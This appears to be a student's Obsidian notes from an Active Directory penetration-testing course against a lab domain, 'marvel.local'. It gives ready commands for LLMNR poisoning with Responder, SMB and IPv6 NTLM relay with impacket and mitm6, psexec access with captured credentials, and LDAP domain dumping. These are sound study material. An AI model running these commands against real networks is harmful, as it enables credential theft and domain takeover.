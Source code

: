 # Initial Attacks
---
[[Initial Attack Strategy]]

- ==**Run Responder and generate traffic**== with nmap / nessus scans [[LLMNR Poisoning Lab]]
	- `sudo responder -I tun0 -dwv`
	- Make sure **all the Servers are on** (specially SMB and HTTP)
	- OneRuleToRuleThemAll (use if fails by default) to crack
	  
- ==**SMB Relay**== (Look for ***Message/SMB signing disabled or not enforced/required*** in nmap) [[SMB Relay Attack Lab]]
	- **turn off SMB and HTTP switches** off in **Responder.conf**
	- **==Enter the list of IPs where you TO relay into `targets.txt` (must have the above SMB Signing criteria)==**
	- `sudo responder -I tun0 -dwv`
	- `impacket-ntlmrelayx -tf targets.txt -smb2support`
- **==Gaining Access (shell) with captured Hash / Password==**
	- [[Gaining a Shell]]
	- **Psexec / WMIExec / SMBexec** (Use another if one fails)
		- `use exploit/windows/smb/psexec` On metasploit
			- Don't forget to **change architecture if required**
		- `impacket-psexec marvel.local/fcastle:'Password1'@10.0.0.25` using impacket => **Better as less noisy**
		  
- ==**IPv6 - MITM6 attack** (A good one)==
	- [[IPv6 Attack]]
	- **Run for 5-10 minutes ONLY to avoid outages**
	- First **run impacket to relay** : `impacket-ntlmrelayx -6 -t ldaps://<DC_IP> -wh fakewpad.marvel.local -l lootme`
	- Then for **domain dump**: `sudo /opt/tools/mitm6/mitm6_env/bin/python /opt/tools/mitm6/mitm6/mitm6.py -d marvel.local`
	- If **some ==administrator log ins, `mitm6.py` will create a new user in the domain for us**==
		- This user has **enterprise admins group and can do secretsdump or dcsync attack**

- ==**Printers or other servers with default/weak credentials**==
	- [[Printer Hacking]]
	- Something that **connects to LDAP, SMB, etc**
	  
- ==**Think out of the box**==
	- **Default credentials**
		- What else is available? - **Websites, Printers, Some other server**
# Post-Compromise Enumeration
---
[[Post-Compromise AD Enumeration]]
**==Enumerate each machine thoroughly even after you found credentials or possible way forward==**
==**Look in the linked file in each tool on what to look for in dumped files**==

 - **LDAP Domain Dump**  [[Domain Enumeration ldapdomaindump]]
	 - **Make a new directory and cd into it** to avoid making mess of files
	 - `sudo ldapdomaindump ldaps://<DC_IP> -u 'MARVEL\fcastle' -p Password1 -o .`
